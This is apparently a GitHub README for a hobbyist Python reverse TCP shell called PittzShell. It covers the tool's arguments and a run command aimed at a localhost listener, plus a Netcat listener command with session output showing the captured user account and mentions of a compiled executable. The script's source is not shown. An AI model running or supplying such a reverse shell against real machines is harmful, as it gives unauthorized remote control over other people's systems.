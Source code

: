 # PittzShell

I created this python reverse TCP shell as just a fun little project when I was still relatively new to python. 

I've recently come back to update the code and make it a bit more user friendly. 

### USAGE

It is super simple to use, parse the arguments of the IP address and the port of the listener. 

```

usage: PittzShell.py [-h] --host HOST --port PORT

python reverse shell script

optional arguments:
  -h, --help   show this help message and exit
  --host HOST  listener IP address to connect to
  --port PORT  listener port to connect to

```

```
PS D:\GitHub\Pitts_Reverse_Shell> py .\PittzShell.py --host 127.0.0.1 --port 444

```

I've only tested this with Netcat as the listener. 

```
PS D:\GitHub\Pitts_Reverse_Shell> nc -nvlp 444
Ncat: Version 5.59BETA1 ( http://nmap.org/ncat )
Ncat: Listening on 0.0.0.0:444
Ncat: Connection from 127.0.0.1:57455.

connected!

user account:
desktop-6k23g16\pitticus

pittzshell> 

```

### Executable 

I've also compiled the script into an executable for those who prefer something more portable. 

#### PittzShell.exe 

### Help 

Currently, it supports change directory. 

I do plan to add more functionality to it. 

```
pittzshell> help

        built-in support
--------------------------------
cd - change directory
exit - closes the connection 
```